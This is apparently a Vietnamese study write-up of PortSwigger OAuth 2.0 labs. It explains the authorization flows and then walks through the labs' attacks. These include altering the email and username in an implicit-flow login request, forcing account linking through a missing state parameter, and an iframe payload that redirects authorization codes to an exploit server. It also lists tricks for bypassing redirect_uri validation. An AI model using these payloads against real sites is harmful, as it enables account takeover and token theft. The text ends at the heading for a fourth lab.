




# OAuth 2.0 authentication vulnerabilities
## OAuth là gì?
OAuth là một framework ủy quyền phổ biến cho phép các trang web và ứng dụng web yêu cầu quyền truy cập giới hạn vào tài khoản của người dùng trên một ứng dụng khác. Quan trọng là, OAuth cho phép người dùng cấp quyền truy cập này mà không cần tiết lộ thông tin đăng nhập của họ cho ứng dụng yêu cầu. Điều này có nghĩa là người dùng có thể tùy chỉnh dữ liệu họ muốn chia sẻ mà không phải trao toàn quyền kiểm soát tài khoản của mình cho bên thứ ba.

**Lưu ý**\
Mặc dù OAuth 2.0 là tiêu chuẩn hiện tại, một số trang web vẫn sử dụng phiên bản cũ 1a. OAuth 2.0 được viết lại từ đầu thay vì phát triển trực tiếp từ OAuth 1.0. Vì vậy, hai phiên bản này rất khác nhau. Xin lưu ý rằng thuật ngữ "OAuth" trong tài liệu này chỉ đề cập đến OAuth 2.0.

## OAuth hoạt động như thế nào?
OAuth 2.0 ban đầu được phát triển để chia sẻ quyền truy cập vào dữ liệu cụ thể giữa các ứng dụng. Nó hoạt động bằng cách định nghĩa một loạt các tương tác giữa ba bên khác nhau, gồm:

- Ứng dụng khách (Client application): Trang web hoặc ứng dụng web muốn truy cập dữ liệu của người dùng.
- Chủ sở hữu tài nguyên (Resource owner): Người dùng có dữ liệu mà ứng dụng khách muốn truy cập.
- Nhà cung cấp dịch vụ OAuth (OAuth service provider): Trang web hoặc ứng dụng kiểm soát dữ liệu của người dùng và quyền truy cập vào dữ liệu đó. Họ hỗ trợ OAuth bằng cách cung cấp API để tương tác với cả máy chủ ủy quyền và máy chủ tài nguyên.

Có nhiều cách khác nhau để quy trình OAuth có thể được triển khai, gọi là "luồng" OAuth (OAuth flows) hoặc "loại cấp quyền" (grant types). Trong chủ đề này, chúng ta sẽ tập trung vào hai loại grant phổ biến nhất là authorization code và implicit. Về cơ bản, cả hai loại này đều bao gồm các bước sau:

- Ứng dụng khách yêu cầu quyền truy cập vào một phần dữ liệu của người dùng, chỉ định loại grant mà họ muốn sử dụng và loại quyền truy cập mà họ cần.
- Người dùng được yêu cầu đăng nhập vào dịch vụ OAuth và cho phép rõ ràng quyền truy cập được yêu cầu.
- Ứng dụng khách nhận được một mã truy cập (access token) duy nhất để chứng minh rằng họ đã được người dùng cho phép truy cập dữ liệu. Cách thức nhận mã này phụ thuộc vào loại grant.
- Ứng dụng khách sử dụng mã truy cập này để thực hiện các cuộc gọi API để lấy dữ liệu liên quan từ máy chủ tài nguyên.

Trước khi tìm hiểu cách OAuth được sử dụng cho xác thực, điều quan trọng là phải hiểu các nguyên tắc cơ bản của quy trình OAuth này.

### Cách xác thực của OAuth
Mặc dù ban đầu không được thiết kế cho mục đích này, OAuth đã phát triển thành một phương tiện để xác thực người dùng. Ví dụ, bạn có thể quen thuộc với tùy chọn mà nhiều trang web cung cấp để đăng nhập bằng tài khoản mạng xã hội thay vì phải đăng ký mới. Mỗi khi bạn thấy tùy chọn này, có khả năng nó được xây dựng trên OAuth 2.0.

Với các cơ chế xác thực OAuth, quy trình OAuth cơ bản vẫn tương đối giống nhau; điểm khác biệt chính là cách ứng dụng khách sử dụng dữ liệu mà nó nhận được. Từ góc độ người dùng, kết quả của xác thực OAuth trông giống như đăng nhập một lần dựa trên SAML (SAML-based single sign-on - SSO). Trong tài liệu này, chúng ta sẽ tập trung vào các lỗ hổng trong trường hợp sử dụng giống như SSO này.

Xác thực OAuth thường được triển khai như sau:

- Người dùng chọn tùy chọn đăng nhập bằng tài khoản mạng xã hội. Sau đó, ứng dụng khách sử dụng dịch vụ OAuth của trang mạng xã hội đó để yêu cầu quyền truy cập vào một số dữ liệu mà nó có thể sử dụng để xác định người dùng, chẳng hạn như địa chỉ email được đăng ký với tài khoản của họ.
- Sau khi nhận được mã truy cập (access token), ứng dụng khách yêu cầu dữ liệu này từ máy chủ tài nguyên, thường từ một endpoint `/userinfo` dành riêng.
- Sau khi nhận được dữ liệu, ứng dụng khách sử dụng nó thay cho tên người dùng để đăng nhập. Mã truy cập mà nó nhận được từ máy chủ ủy quyền thường được sử dụng thay cho mật khẩu truyền thống.

---

## 1. Authentication bypass via OAuth implicit flow
https://portswigger.net/web-security/oauth/lab-oauth-authentication-bypass-via-oauth-implicit-flow

Với bài này, nó sẽ gửi 1 request đến 1 bên OAuth thứ 3 `oauth-0af900fb042049ab8410707902f3007c.oauth-server.net` để xin cấp phát:
```http
GET /auth?client_id=dfa2o82nz4nnbkijz5za3&redirect_uri=https://0a4900ba0451496d84a272d100a4000d.web-security-academy.net/oauth-callback&response_type=token&nonce=-1229839116&scope=openid%20profile%20email HTTP/2
Host: oauth-0af900fb042049ab8410707902f3007c.oauth-server.net
Cookie: _session=ZAxtL98s9SGAnAFMWCBLN; _session.legacy=ZAxtL98s9SGAnAFMWCBLN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Priority: u=0, i
Te: trailers
```
Nó sẽ tạo 1 token để cấp phiên đăng nhập

Sau đó gửi 1 request nữa để xác định người dùng cần xác thực: 
```http
POST /authenticate HTTP/2
Host: 0a4900ba0451496d84a272d100a4000d.web-security-academy.net
Cookie: session=tidGM54jJkZw2sJXH3qNuJCbg5GXwyjE
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0a4900ba0451496d84a272d100a4000d.web-security-academy.net/oauth-callback
Content-Type: application/json
Content-Length: 111
Origin: https://0a4900ba0451496d84a272d100a4000d.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"YKQy5WI49aKlDU2dJ2Hsx2KlhZxWvCjXctEccIu-s2J"}
```

Ở phần này ta sẽ đổi `email` và `username` để đăng nhập với `username` khác

Các request chuyển hướng sẽ liên tục vì vậy dùng `intercept` để bắt lại quá trình này và sửa đổi ở request POST sau đó. 

---

Khi thiếu parameter `state` hoặc `state` rỗng, thì có thể tấn công như 1 cuộc tấn công CSRF thông thường 

## 2. Forced OAuth profile linking
https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking

Luồng: Khi đăng nhập bằng tài khoản thường, sau đó link với tài khoản mạng xã hội khác thì có thể đăng nhập bằng mạng xã hội khác 

Đầu tiên đăng nhập bằng tài khoản thường, sau đó link với tài khoản mxh.

Nhập các thông tin đăng nhập của mxh đó. 

Ta thấy có URL:\


Ta thấy `code` này gửi đi không kèm theo `state` nên không có chuỗi xác thực nào để xác thực, do đó bất kì ai gửi URL này với `code` hợp lệ (chưa được sử dụng) thì đều sẽ liên kết với tài khoản mxh mà ta vừa nhập.

{Đây là lỗ hổng ở bước thứ 3 `Authorization code grant`}

Do đó, sau khi link với mxh, ta sẽ chặn ở đây, để lấy code hợp lệ, và gửi cho victim, bên victim khi truy cập URL này sẽ link với tài khoản MXH của ta. 

Từ đó chiếm quyền điều khiểm tk victim.

Bắt gói tin và lấy `code` sau đó drop gói tin có `code` đó đi để code đó chưa được sử dụng, sau đó đưa vào exploit:\


Thành công thì khi đăng nhập bằng tài khoản mxh sẽ vào được admin:\


---

Tùy thuộc vào grant type, code hoặc token sẽ được gửi qua trình duyệt của nạn nhân đến endpoint `/callback` được chỉ định trong tham số `redirect_uri` của yêu cầu ủy quyền.

Nếu dịch vụ OAuth không xác thực đúng URI này, kẻ tấn công có thể xây dựng một cuộc tấn công giống như CSRF, lừa trình duyệt của nạn nhân khởi tạo luồng OAuth sẽ gửi mã hoặc mã thông báo đến `redirect_uri` do kẻ tấn công kiểm soát.

---
## 3. OAuth account hijacking via redirect_uri
https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri

Ở bài này, chúng ta sẽ sửa đổi `redirect-uri` để khi trả `code` về nó sẽ gửi sang 1 uri khác (uri của attacker) và ta sẽ đánh cắp được `code` của victim và từ đó log in được tài khoản của họ.

Khi đăng nhập bình thường:\


Payload:
```html
<iframe src="https://oauth-0af700d0036fa0fb80eb247802ce0070.oauth-server.net/auth?client_id=w14coh8eomht8n4frd1w3&redirect_uri=https://exploit-0ad900ca0365a06880bc25b301f00086.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

Ở đây ta chú ý, `client_id` vẫn giống như khi ta đăng nhập, do id này đại diện cho application ta đang sử dụng nên nó giống nhau, ta sẽ tiêm vào uri sang exploit server.

---

Để tránh lỗi này, hướng có thể là tạo 1 whitelist `redirect_uri` để tránh uri attacker tiêm vào.

Mặc dù vậy vẫn có 1 số cách làm sai quy trình xử lí của nó như: 
- Chỉ check đoạn đầu (domain chính)
- Dùng kỹ thuật để thoát chuỗi ban đầu `https://default-host.com &@foo.evil-user.net#@bar.evil-user.net/`
- Thử duplicate param `redirec_uri`
- Thử với `localhost` vì trong quá trình test thử có thể vẫn còn giữ

---
# Stealing codes and access tokens via a proxy page

Khi redirect_uri bị giới hạn, ta sẽ thử tiêm vào chuỗi:\ 
`https://client-app.com/oauth/callback/../../example/path`

Mục đích để gây nhiễu và tìm ra path nào khác khả thi không, điều này có thể dẫn tới việc truy cập: \
`https://client-app.com/example/path`

Sau khi xác định được trang mà có thể redirect tới (khác với uri mặc định), ta sẽ thử tìm thêm lỗi ở trang đó, nếu nó có những lỗi như `open redirect` thì có thể tận dụng nó để đánh cắp token được gửi đến. 

Ngoài `open redirect` ta có thể tìm các lỗi như: 
- Dangerous JavaScript that handles query parameters and URL fragments
- XSS
- HTML injection: khi có thể chèn 1 html `` khi bắt gói tin, chú ý phần `Referer` đôi khi ta có thể lấy được url của request trước tới server đó.

---
## 4. Stealing OAuth access tokens via an open redirect
https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect


